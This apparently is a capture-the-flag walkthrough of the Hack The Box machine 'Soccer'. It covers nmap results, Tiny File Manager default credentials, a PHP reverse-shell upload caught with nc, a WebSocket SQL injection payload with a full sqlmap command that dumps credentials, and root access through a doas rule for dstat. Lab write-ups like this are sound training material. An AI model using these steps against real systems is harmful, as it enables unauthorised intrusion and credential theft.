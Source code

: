 First is turn on the nmap
```
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
|   256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
|_  256 5797565def793c2fcbdb35fff17c615c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Soccer - Index 
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Thu, 19 Oct 2023 15:35:50 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Thu, 19 Oct 2023 15:35:51 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9091-TCP:V=7.93%I=7%D=10/19%Time=653168F1%P=x86_64-pc-linux-gnu%r(i
SF:nformix,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\
SF:r\n\r\n")%r(drda,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\
SF:x20close\r\n\r\n")%r(GetRequest,168,"HTTP/1\.1\x20404\x20Not\x20Found\r
SF:\nContent-Security-Policy:\x20default-src\x20'none'\r\nX-Content-Type-O
SF:ptions:\x20nosniff\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nC
SF:ontent-Length:\x20139\r\nDate:\x20Thu,\x2019\x20Oct\x202023\x2015:35:50
SF:\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lan
SF:g=\"en\">\n<head>\n<meta\x20charset=\"utf-8\">\n<title>Error</title>\n<
SF:/head>\n<body>\n<pre>Cannot\x20GET\x20/</pre>\n</body>\n</html>\n")%r(H
SF:TTPOptions,16C,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Po
SF:licy:\x20default-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\
SF:nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143
SF:\r\nDate:\x20Thu,\x2019\x20Oct\x202023\x2015:35:51\x20GMT\r\nConnection
SF::\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<m
SF:eta\x20charset=\"utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>
SF:Cannot\x20OPTIONS\x20/</pre>\n</body>\n</html>\n")%r(RTSPRequest,16C,"H
SF:TTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Policy:\x20default-
SF:src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nContent-Type:\x2
SF:0text/html;\x20charset=utf-8\r\nContent-Length:\x20143\r\nDate:\x20Thu,
SF:\x2019\x20Oct\x202023\x2015:35:51\x20GMT\r\nConnection:\x20close\r\n\r\
SF:n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<meta\x20charset=\"
SF:utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Cannot\x20OPTIONS
SF:\x20/</pre>\n</body>\n</html>\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Ba
SF:d\x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP,2
SF:F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")
SF:%r(DNSStatusRequestTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnec
SF:tion:\x20close\r\n\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\
SF:r\nConnection:\x20close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We can see there 3 ports, but one look very intresting 9091, also we need to add soccer.htb into /etc/hosts. Now turn on gobuster.
I foud /tiny 

![image](https://github.com/Anogota/Soccer/assets/143951834/55e4fe7c-2314-44f8-8c2a-a863a3e4ff78)

Let's go google about it. I found this, and this work's Default username/password: admin/admin@123 and user/12345.
Also this version Tiny File Manager have a vulnerability RCE:

![image](https://github.com/Anogota/Soccer/assets/143951834/1705b470-1d26-42e0-926d-235b4b4c78f6)

First what we need to do is ```cp /usr/share/webshell/php/php-reverse-shell.php ~/HTB``` then change ip. Then run nc. But you can upload on tiny/uploads, in othere place u can't upload any *.php. Then go to http://soccer.htb/tiny/uploads/php-reverse-shell.php and you will get a shell

![image](https://github.com/Anogota/Soccer/assets/143951834/377d0450-c4bf-4ddd-898a-7d3d5cfaa196)

I found another subdomain let's also this add into /etc/hosts

![image](https://github.com/Anogota/Soccer/assets/143951834/a98025a7-fac2-453a-a14c-d40df22c31ef)

This site look's very symilar, but we can there singup let's create a account and look what's there.
Okay there nothing intresting only this

![image](https://github.com/Anogota/Soccer/assets/143951834/183ae68c-5afe-4915-8706-a7164cda0262)

turn on the burp and intercept the traffic maybe when we look deeper we will find something intresting. This websocks look's intresting i think there will be SQLi

![image](https://github.com/Anogota/Soccer/assets/143951834/34833323-7858-4d26-8aee-496988b45acc)

When i tryed {"id":"71080 OR 1=1"} i got Ticket Exists, now i'm sure there is a SQLi also i found this in source code, this help to create a request sqlmap
```
  var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
        window.onload = function () {
```

Here's sqlmap request:```sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --level 5 --risk 3 --batch``` Let's check what we can take by this.
Okay this looks intresting we need to modifay little bit our request.

![image](https://github.com/Anogota/Soccer/assets/143951834/7d558a17-d08d-48c5-9712-bdd37cc29a0e)

We got some credentials, lets go by this credentials log in to SSH
And we got this:

![image](https://github.com/Anogota/Soccer/assets/143951834/4a13c597-d857-48fd-bca7-4445c2969027)

sudo -l, don't working also can't find anything in /etc/crontab/ /etc/shadow /etc/passwd but when i tryed 
```
find / -type f -perm -4000 2>/dev/null
```
```
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/at
/snap/snapd/17883/usr/lib/snapd/snap-confine
/snap/core20/1695/usr/bin/chfn
/snap/core20/1695/usr/bin/chsh
/snap/core20/1695/usr/bin/gpasswd
/snap/core20/1695/usr/bin/mount
/snap/core20/1695/usr/bin/newgrp
/snap/core20/1695/usr/bin/passwd
/snap/core20/1695/usr/bin/su
/snap/core20/1695/usr/bin/sudo
/snap/core20/1695/usr/bin/umount
/snap/core20/1695/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1695/usr/lib/openssh/ssh-keysign
```
Only one looks intresting ```/usr/local/bin/doas``` but there nothing, i little bit search on SSH and i found in this directory /usr/local/etc doas.conf
```
player@soccer:/usr/local/etc$ cat doas.conf 
permit nopass player as root cmd /usr/bin/dstat
```
i got this announcement, i go into this and i found script but 2 lines of code are vulnerabilitable

![image](https://github.com/Anogota/Soccer/assets/143951834/c02eb135-6d21-4560-80e5-f54842da4ba1)

and we get a root.

![image](https://github.com/Anogota/Soccer/assets/143951834/cf746a88-c34a-41c3-a8fe-ec6397409386)
